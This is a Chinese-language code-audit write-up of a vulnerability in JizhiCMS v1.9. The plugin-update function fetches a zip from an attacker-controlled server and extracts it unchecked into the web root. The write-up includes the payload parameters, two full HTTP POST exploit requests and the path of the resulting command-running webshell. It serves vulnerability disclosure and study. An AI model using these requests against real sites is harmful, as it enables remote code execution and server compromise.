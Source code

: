 极致cms代码审计
=========

###### 源码地址：[https://gitee.com/Cherry\_toto/jizhicms](https://gitee.com/Cherry_toto/jizhicms)

一、审计工具：
-------

PhpStudy（2016版本）、Phpstorm（2020.3.2版本）、  
Seay源代码审计系统

二、审计步骤：
-------

### 查找关键点一：关键函数

文件操作函数：  
fopen、fclose、fputs、fwrite、readfile、file\_put\_contents、fputs、socket\_write、ftp\_nb\_get、tempnam、unl ink以及额外的（imagettftext）

### 查找关键点二：可控的参数

寻找函数里可控的参数如：fopen($\_GET\[‘filename’\],"w");  
利用上面的工具（Seay源代码审计系统）在极致cms文件中全局搜索就找到了一处file\_put\_contents函数可控的方法。如下：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-dcb03b92f407538d3d35d95dc5e0ebca89690f7e.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-dcb03b92f407538d3d35d95dc5e0ebca89690f7e.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-9db64446c6c6a8ed2575d89d394eac5dc7fe5127.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-9db64446c6c6a8ed2575d89d394eac5dc7fe5127.png)  
传入压缩包在926行处进行$resource = zip\_open（“payload.zip”）打开压缩包，在932行处这里是有子目录的话就继续往下打开，在934行处这里是压缩包里的全部路径（如：A/B/C.txt），往下936行处这里是以”/“进行分割目录名，如果目录不存在就会往下执行if判断并创建文件目录（权限为：0777），继续往下走就进到if判断是否为目录，如果不是就对应压缩包里的文件（如：A/B/C.txt）并以file\_put\_contents函数进行写入，简单来说这个方法并没有进行判断和过滤就直接写入了。

#### 流程：

传入压缩包 》解压压缩包 》循环创建并写入对应的压缩包内的文件数据。

### 查找关键点三：往上跟踪

全局搜索上面的方法get\_zip\_originalsize（  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-91a27ab1a598f2a8cba36fd1c7bfe69111131f78.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-91a27ab1a598f2a8cba36fd1c7bfe69111131f78.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-ebbc81ffb931ae058697c9cff60c6ccf5c6c7863.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-ebbc81ffb931ae058697c9cff60c6ccf5c6c7863.png)  
上面的意思是：将压缩包解压到A/exts/解压后的目录。  
而$path的值我们是已知的，$path=根目录/A/exts/。  
而$tmp\_path我们不知道它的目录在哪里，继续往上翻翻看  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a5f4cd6c266a39109779ada85eef74344f3c073d.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-a5f4cd6c266a39109779ada85eef74344f3c073d.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-211793c6f9e80665f36a7b27daf3d092d739d982.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-211793c6f9e80665f36a7b27daf3d092d739d982.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-19838ff7f9c69f5f00a885636157052f5ffb011c.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-19838ff7f9c69f5f00a885636157052f5ffb011c.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-20bfeee741db5803e682d066397537c349530a7a.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-20bfeee741db5803e682d066397537c349530a7a.png)

在该方法update中的721行这里，$tmp\_path目录是cache/filepath进行控制的，而且还进行了过滤，但是对我们没任何影响。  
在745行处找到了下载文件的判断代码，如果是$action的值是”start-download“就进行下载。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-4457d0cd4bba426beba07c89aa9ecde53a1579c0.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-4457d0cd4bba426beba07c89aa9ecde53a1579c0.png)

### 查找关键点四：搜索对应页面

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8eeea22cd9a4f91ff2a0307b31e17477638dbc6a.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8eeea22cd9a4f91ff2a0307b31e17477638dbc6a.png)  
由于配置文件说明默认模板是.html的，那就搜索包start-download含html的文件  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-b85bd7a7bd2cd5f67d43f49f39ab9975054b268f.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-b85bd7a7bd2cd5f67d43f49f39ab9975054b268f.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-96cb070a7411d32968b5b20b5300c23abc117cc1.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-96cb070a7411d32968b5b20b5300c23abc117cc1.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-c065c68d6646f79f1939654d34df7c8e817c0f4a.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-c065c68d6646f79f1939654d34df7c8e817c0f4a.png)

最后简单说明：  
checkAction('Plugins/change\_status')：Plugins为控制器名，change\_status为方法名。  
在（admin.php/plugins/update.html）页面进行post传参，第一次调用start-download方法进行下载payload压缩文件，第二次进行解压payload文件到A\\exts目录下。  
Payload：

```php
action=start-download&filepath=任意文件名&download_url=vps/1.zip
```

三、影响版本：
-------

v1.9全版本

四、实现步骤：
-------

### 步骤一：后台账号权限必须拥有权限插件管理

（开启：首页/管理员管理/角色管理/角色修改）

### 步骤二：远程下载payload压缩文件

```php
action=start-download&filepath=3&download_url=http%3A%2F%2F（vps）%2F1.zip
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-67956642173c696f50f89f1cc25dfc617a83c747.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-67956642173c696f50f89f1cc25dfc617a83c747.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-b17cbfb7b3891375823afc9d34bcc0ecff255317.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-b17cbfb7b3891375823afc9d34bcc0ecff255317.png)

#### 数据包：

```php
POST /admin.php/Plugins/update.html HTTP/1.1
Host: 192.168.1.108
Content-Length: 80
Accept: application/json, text/j avas cript, */*; q=0.01
X-Requested-With: X MLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.108
Referer: http://192.168.1.108/admin.php/Plugins/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=g9470pcp62tg9og1a6798d3g23
x-forwarded-for: 8.8.8.8
x-originating-ip: 8.8.8.8
x-remote-ip: 8.8.8.8
x-remote-addr: 8.8.8.8
Connection: close

action=start-download&filepath=3&download_url=http%3A%2F%2F192.168.1.108%2F1.zip
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8e9cee4307ad06e15a5810e95138ee2bb89f6efc.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8e9cee4307ad06e15a5810e95138ee2bb89f6efc.png)

### 步骤三：解压payload文件

action=file-upzip&amp;filepath=3&amp;download\_url=  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-ffc4c703ad1973cd45fb938fc98b9af82f7e4c4c.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-ffc4c703ad1973cd45fb938fc98b9af82f7e4c4c.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-71b340364b1003b475ef009b6fff0ecb36d56de5.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-71b340364b1003b475ef009b6fff0ecb36d56de5.png)

#### 数据包：

```php
POST /admin.php/Plugins/update.html HTTP/1.1
Host: 192.168.1.108
Content-Length: 42
Accept: application/json, text/j avas cript, */*; q=0.01
X-Requested-With: X MLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.108
Referer: http://192.168.1.108/admin.php/Plugins/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=g9470pcp62tg9og1a6798d3g23
x-forwarded-for: 8.8.8.8
x-originating-ip: 8.8.8.8
x-remote-ip: 8.8.8.8
x-remote-addr: 8.8.8.8
Connection: close

action=file-upzip&filepath=3&download_url=
```

### 访问路径是：

[http://127.0.0.1//A/exts/压缩包目录/1.php?1=ipconfig](http://127.0.0.1//A/exts/%E5%8E%8B%E7%BC%A9%E5%8C%85%E7%9B%AE%E5%BD%95/1.php?1=ipconfig)  
<http://127.0.0.1//A/exts/1/1.php?1=ipconfig>  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-b7b9637706704d358348d3e6561cbfe748540105.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-b7b9637706704d358348d3e6561cbfe748540105.png)